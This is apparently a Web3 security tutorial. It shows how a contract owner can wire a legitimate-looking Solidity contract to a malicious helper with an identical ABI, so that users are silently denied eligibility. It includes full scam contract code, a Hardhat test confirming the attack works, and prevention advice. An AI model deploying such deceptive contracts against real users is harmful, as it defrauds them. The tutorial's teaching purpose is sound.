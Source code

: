 # 👎 Genuine looking malicious contracts through external helpers

In the crypto world, you will often hear about how contracts which looked legitimate were the reason behind a big scam. How are hackers able to execute malicious code from a legitimate looking contract?

We will learn one method today 👀

## 👀 What will happen?

There will be three contracts - `Attack.sol`, `Helper.sol` and `Good.sol`. User will be able to enter an eligibility list using `Good.sol` which will further call `Helper.sol` to keep track of all the users which are eligible.

`Attack.sol` will be designed in such a way that eligibility list can be manipulated, lets see how 👀

## ⚒️ Build

### Setting up Hardhat

> Note
> All of these commands should work smoothly .
> If you are on windows and face Errors Like `Cannot read properties of null (reading 'pickAlgorithm')`
> Try Clearing the NPM cache using `npm cache clear --force`.

Start by creating a new project directory.

```bash
mkdir malicious-contracts
```

Let's start setting up Hardhat inside the `malicious-contracts` directory.

```bash
cd malicious-contracts
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

### Writing the smart contracts

Start by creating a new file inside the `contracts` directory called `Good.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;
import "./Helper.sol";

contract Good {
    Helper helper;
    constructor(address _helper) payable {
        helper = Helper(_helper);
    }

    function isUserEligible() public view returns(bool) {
        return helper.isUserEligible(msg.sender);
    }

    function addUserToList() public  {
        helper.setUserEligible(msg.sender);
    }

    fallback() external {}

}
```

After creating `Good.sol`, create a new file inside the `contracts` directory named `Helper.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Helper {
    mapping(address => bool) userEligible;

    function isUserEligible(address user) public view returns(bool) {
        return userEligible[user];
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
```

The last contract that we will create inside the `contracts` directory is `Malicious.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Malicious {
    address owner;
    mapping(address => bool) userEligible;

    constructor() {
        owner = msg.sender;
    }

    function isUserEligible(address user) public view returns(bool) {
        if(user == owner) {
            return true;
        }
        return false;
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
```

You will notice that the fact about `Malicious.sol` is that it will generate the same ABI as `Helper.sol` eventhough it has different code within it. This is because ABI only contains function definitions for public variables, functions and events. So `Malicious.sol` can be typecasted as `Helper.sol`.

Now because `Malicious.sol` can be typecasted as `Helper.sol`, a malicious owner can deploy `Good.sol` with the address of `Malicious.sol` instead of `Helper.sol` and users will believe that he is indeed using `Helper.sol` to create the eligibility list.

In our case, the scam will happen as follows. The scammer will first deploy `Good.sol` with the address of `Malicious.sol`. Then when the user will enter the eligibility list using `addUserToList` function which will work fine because the code for this function is same within `Helper.sol` and `Attack.sol`.

The true colours will be observed when the user will try to call `isUserEligible` with his address because now this function will always return `false` because it calls `Malicious.sol`'s `isUserEligible` function which always returns `false` except when its the owner itself, which was not supposed to happen.

### Writing the test

Lets try to write a test and see if this scam actually works, create a new file inside the `test` folder named `attack.js`

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Malicious External Contract", function () {
  it("Should change the owner of the Good contract", async function () {
    // Deploy the Malicious contract
    const Malicious = await ethers.getContractFactory("Malicious");
    const maliciousContract = await Malicious.deploy();
    await maliciousContract.deployed();
    console.log("Malicious Contract's Address", maliciousContract.address);

    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.deploy(maliciousContract.address, {
      value: ethers.utils.parseEther("3"),
    });
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    const [_, addr1] = await ethers.getSigners();
    // Now lets add an address to the eligibility list
    let tx = await goodContract.connect(addr1).addUserToList();
    await tx.wait();

    // check if the user is eligible
    const eligible = await goodContract.connect(addr1).isUserEligible();
    expect(eligible).to.equal(false);
  });
});
```

### Testing the attack

To run this test, open up your terminal pointing to the root of the directory for this level and execute this command:

```bash
npx hardhat test
```

If all your tests passed, this means that the scam was successful and that the user will never be determined eligible.

## 👮 Prevention

Make the address of the external contract public and also get your external contract verified so that all users can view the code

Create a new contract, instead of typecasting an address into a contract inside the constructor. So instead of doing `Helper(_helper)` where you are typecasting `_helper` address into a contract which may or may not be the `Helper` contract, create an explicit new helper contract instance using `new Helper()`.

Example

```solidity
contract Good {
    Helper public helper;
    constructor() {
        helper = new Helper();
}
```

<Quiz questionId="4e4b7aa2-7d27-4f2d-b66f-d2a3a04adb27" />
<Quiz questionId="d7194a5e-fe17-420f-8dc8-1789665d0fe5" />

Wow, lots of learning right? 🤯

Beaware of scammers, you might need to double check the code of a new dApp you want to put money in.

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
